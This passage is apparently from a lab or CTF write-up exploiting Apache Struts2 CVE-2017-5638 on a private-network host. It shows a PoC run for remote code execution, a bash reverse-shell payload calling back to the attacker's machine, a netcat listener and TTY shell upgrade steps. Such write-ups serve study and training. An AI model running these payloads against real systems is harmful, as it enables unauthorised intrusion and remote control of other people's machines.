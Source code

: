 ```
Found: [Status=200] [Length=21630] http://192.168.159.179:8080/favicon.ico
Found: [Status=302] [Length=0] http://192.168.159.179:8080/host-manager
Found: [Status=302] [Length=0] http://192.168.159.179:8080/manager
===============================================================
2022/10/22 00:50:49 Finished
===============================================================
```

## Step 2 - Exploitation

Apache's Struts2 application has a known RCE vulnerability.

A PoC exploit can be found on [this](https://github.com/jrrdev/cve-2017-5638) Github page.

To test if the exploit would work here, the ```whoami``` command was used, resulting in this payload:

```
$ python2.7 exploit.py http://192.168.159.179:8080/struts2-showcase/ "whoami" 
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: whoami

minhtuan
```

Therefore, RCE was achieved.

To open a reverse shell, the payload was changed to a simple Bash bind shell command.

```
$ python2.7 exploit.py http://192.168.159.179:8080/struts2-showcase/ "bash -i >& /dev/tcp/192.168.159.128/4444 0>&1"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: bash -i >& /dev/tcp/192.168.159.128/4444 0>&1
```

A Netcat listener was also opened on the attacker's machine to anticipate the injected bind shell command.

```
$ sudo nc -lvnp 4444
[sudo] password for meowmycks: 
listening on [any] 4444 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.179] 42220
bash: cannot set terminal process group (653): Inappropriate ioctl for device
bash: no job control in this shell
minhtuan@ubuntu:~$
```

The shell was upgraded to a TTY shell.

```
minhtuan@ubuntu:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
minhtuan@ubuntu:~$ ^Z
zsh: suspended  sudo nc -lvnp 4444
                                                                                                                    
$ stty raw -echo    
  └─$ fg
[1]  + continued  sudo nc -lvnp 4444


minhtuan@ubuntu:~$ reset   
reset
reset: unknown terminal type unknown
Terminal type? xterm-256color
xterm-256color
minhtuan@ubuntu:~$export TERM=xterm-256color
export TERM=xterm-256color
```